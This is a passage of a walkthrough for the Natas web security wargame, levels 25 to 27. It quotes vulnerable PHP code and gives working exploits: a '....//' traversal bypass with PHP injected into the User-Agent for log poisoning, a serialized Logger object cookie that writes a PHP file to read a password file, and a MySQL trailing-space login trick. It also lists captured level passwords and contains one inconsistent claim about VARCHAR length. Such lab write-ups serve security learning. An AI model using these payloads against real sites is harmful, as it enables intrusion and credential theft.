            // check for directory traversal
            if(strstr($filename,"../")){
                logRequest("Directory traversal attempt! fixing request.");
                $filename=str_replace("../","",$filename);
            }
            // dont let ppl steal our passwords
            if(strstr($filename,"natas_webpass")){
                logRequest("Illegal file access detected! Aborting!");
                exit(-1);
            }
            // add more checks...

            if (file_exists($filename)) { 
                include($filename);
                return 1;
            }
            return 0;
    }

    function logRequest($message){
            $log="[". date("d.m.Y H::i:s",time()) ."]";
            $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
            $log=$log . " \"" . $message ."\"\n"; 
            $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
            fwrite($fd,$log);
            fclose($fd);
    }
    ```

- We can set the `language` using a `GET` request directly on the url. If the language is not available, the language defaults to English.
- The language itself is a file and a series of tests are performed on the `lang` parameter before accessing the text in that language and performing the logging operation.
- The server does not allow us to perform a directory traversal, since it replaces `../` with a blank. This can, however, be easily bypassed by passing `....//`. The underlined portion gets replaced but `../` still remains.
- Similarly, we can't access the password file `/etc/natas_webpass/natas26` this way since the server checks for the presence of `natas_webpass` and exits if it is present. There is no way to get around this check!
- The vulnerability in this level lies in the `logRequest($message)` function. This function logs the error messages in the file `/var/www/natas/natas25/logs/natas25_$_PHPSESSID.log`, where `$PHPSESSID` is the cookie value set by the server.
- It is to be noted that this function also logs the `USER_AGENT` into the log file. The value of this header is the browser and the system performing the request but we can instead inject `php` code in this header with the help of `Burp Suite`. Then, all we have to do is view the log file.
- The result is as follows:

    

    Notice the directory traversal in the `GET` header and the `php` code in the `User-Agent` header.

- Password

    oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T

## 27 Level 26 → Level 27

- The landing page for `natas26` shows a tool that asks us to input two 2D coordinates and then, generates a line segment with these end-points.
- The source code for this level is obviously long, but here are the relevant parts:

    ```php
    class Logger{
            private $logFile;
            private $initMsg;
            private $exitMsg;
          
            function __construct($file){
                // initialise variables
                $this->initMsg="##--session started--##\n";
                $this->exitMsg="##--session end--##\n";
                $this->logFile = "/tmp/natas26_" . $file . ".log";
          
                // write initial message
                $fd=fopen($this->logFile,"a+");
                fwrite($fd,$initMsg);
                fclose($fd);
            }                       
          
            function log($msg){
                $fd=fopen($this->logFile,"a+");
                fwrite($fd,$msg."\n");
                fclose($fd);
            }                       
          
            function __destruct(){
                // write exit message
                $fd=fopen($this->logFile,"a+");
                fwrite($fd,$this->exitMsg);
                fclose($fd);
            }                       
    }

    function storeData(){
            $new_object=array();

            if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
                array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
                $new_object["x1"]=$_GET["x1"];
                $new_object["y1"]=$_GET["y1"];
                $new_object["x2"]=$_GET["x2"];
                $new_object["y2"]=$_GET["y2"];
            }
            
            if (array_key_exists("drawing", $_COOKIE)){
                $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            }
            else{
                // create new array
                $drawing=array();
            }
            
            $drawing[]=$new_object;
            setcookie("drawing",base64_encode(serialize($drawing)));
    }
    ```

- We can also see that the name of the cookie this level sets is `drawing` and its value is the `base64_encode`d, `unserialize`d value fo the `$drawing` array object.
- At the very top, we can also see a class called `Logger` with two magic methods, namely, `__construct()` and `__destruct()`, which is apparently never used in the code! This is suspicious.
- According to this [OWASP](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection) article, the unserialize() function with a class that uses a magic method is susceptible to `php object injection`. This basically means that we can create a `php` object with malicious `php` code in it, `base64_encode` and `serialize` it to set the value of the `drawing` cookie. This will then be decoded and read, and when any of the magic methods are called, our code will be executed!
- The code and the value of the cookie are as follows:

    ```php
    <?php

    class Logger{
            private $logFile;
            private $exitMsg;
          
            function __construct($file){
                // initialise variables
                $this->exitMsg="Password for Natas 27 is: <?php echo file_get_contents('/etc/natas_webpass/natas27') ?>\n";
                $this->logFile = "img/" . $file . ".php";
          
            }                       

          
            function __destruct(){
                // write exit message
                $fd=fopen($this->logFile,"a+");
                fwrite($fd,$this->exitMsg);
                fclose($fd);
            }                       
        }
        
    $myObject = new Logger("natas27_hacked");

    echo urlencode(base64_encode(serialize($myObject)));
    echo "\n";

    // Output: 
    Tzo2OiJMb2dnZXIiOjI6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoyMjoiaW1nL25hdGFzMjdfaGFja2VkLnBocCI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjg4OiJQYXNzd29yZCBmb3IgTmF0YXMgMjcgaXM6IDw%2FcGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3JykgPz4KIjt9
    ```

- As shown above, we must first `urlencode` the result before setting the value of the cookie as `/` and `+` that are used in base64 encoding are not valid charaters for a cookie.
- It is also to be noted that we only have write permissions within the `img` directory. So, we must create our file inside it.
- Once, we set the value of `drawing` cookie to the output of the above code, we should see a message telling us that there has been a fatal error (which only means things are working for us). And when we navigate to the file created by the above code, we should see the output.
- Here are the results as obtained in `Burp Suite:`:

    

    Notice the fatal error as functions expect the `drawing` cookie to hold an Array() object and not our `Logger` object.

    

    Fetching the file created by us in the code gets us the result.

- Password

    55TBjpPZUUJgVpP5b3BnbG60N9uDPVzCJD 

## 28 Level 27 → Level 28

- The landing page for `natas27` shows a login form with the columns `username` and `password`.
- The source code for this level shows a rather long process in which the following events occur:
    1. Check if the `user` with `username` = `$_POST["username"]` exists.
    2. If so, check if the password entries match.
    3. If password entries match as well, dump the data of all user with that username (`username`, `password`)
    4. Else, say "Wrong Password"
     If the username does not exist in the table, create a new user with `username`= `$_POST["username"]` and `password` = `$_POST["password"]`.
- First, we can check if the user `natas28` exists by typing it in the `username` field and leaving the `password` field blank (unless you can divine the password). We can see that the `natas28` user does exist, but we entered the wrong password, so it tells us as much.
- Now, we can try injecting some basic queries into the fields, but the fields were immune to all the queries I tried. So, a different route had to be taken.
- We shall exploit the `MySQL` vulnerability described [here](https://bugs.mysql.com/bug.php?id=64772).
- In comparison operations involving the `WHERE` clause, `MySQL` ignores trailing whitespaces. As we shall soon see, this allows us to create a fake `natas28`
- We first notice that the `username` column is of type `VARCHAR(28)` which means that the field can store upto 64 characters. Now, we create a user, as follows:

    username = natas28 + 64 spaces + abc
    password = something* 

- As these credentials do not match any existing users, a new user is created.
- Next, we login using the following credentials:

    username = natas28
    password = something

    This gives us the password to `natas28`!

- What happened? During the comparison operation, `MySQL` first compared the `username` field with `natas28`. Since this returns some number of rows, the check passes. Now, it checks for the `password` field. Although `natas28+64 spaces+abc` and `natas28` are quite different, `MySQL` sees them as the same, as only `64 characters` are checked and the trailing whitespaces are ignored. So, since these users are the same, the password matching with the user we created is the same as it matching with the original `natas28`. So, `MySQL` is tricked into providing us with the credentials of the user named `natas28`.
- Password

    JWwR438wkgTsNKBbcJoowyysdM82YjeF